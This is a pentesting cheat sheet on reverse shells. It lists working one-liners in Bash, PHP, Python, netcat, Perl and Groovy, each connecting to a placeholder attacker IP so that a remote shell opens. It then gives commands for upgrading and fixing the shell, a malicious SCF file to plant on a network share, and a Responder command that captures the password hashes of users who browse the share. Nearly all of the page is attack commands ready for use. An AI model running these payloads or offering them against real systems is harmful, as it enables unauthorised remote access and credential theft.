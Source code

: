 # Reverse Shells

### Software specific shells

| Name   | Value                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| ------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Bash   | bash -i >& /dev/tcp/111.1111.111.111/8080 0>&1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| PHP    | php -r '$sock=fsockopen("111.1111.111.111",8080);exec("/bin/sh -i <&3 >&3 2>&3");'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Python | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("111.1111.111.111",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'                                                                                                                                                                                                                                                                                                                                           |
| NC v1  | nc -e /bin/sh 111.1111.111.111 8080                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| NC v2  | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 111.1111.111.111 8080 >/tmp/f                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| Perl   | perl -e 'use Socket;$i="111.1111.111.111";$p=8080;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">\&S");open(STDOUT,">\&S");open(STDERR,">\&S");exec("/bin/sh -i");};'                                                                                                                                                                                                                                                                                                                                              |
| Groovy | String host="{your\_IP}"; int port=8000; String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){\}};p.destroy();s.close(); |

### Shell Upgrades

| Name     | Value                                           |
| -------- | ----------------------------------------------- |
| Perl     | perl -e 'exec "/bin/bash";'                     |
| Bash     | echo os.system('/bin/bash')                     |
| Python 3 | python3 -c 'import pty; pty.spawn("/bin/bash")' |
| Python 2 | python -c 'import pty; pty.spawn("/bin/bash")'  |

### Shell Fixes

| Name            | Value              |
| --------------- | ------------------ |
| Fix Window Size | stty rows X cols Y |
| Get Window Size | stty size          |
| Fix Output      | stty raw -echo     |

### Reverse shell files

#### SCF files

[https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)\
\
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.\
\
Saving the pentestlab.txt file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the pentestlab.scf on the top of the share drive.

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```
responder -wrf --lm -v -I eth0
```

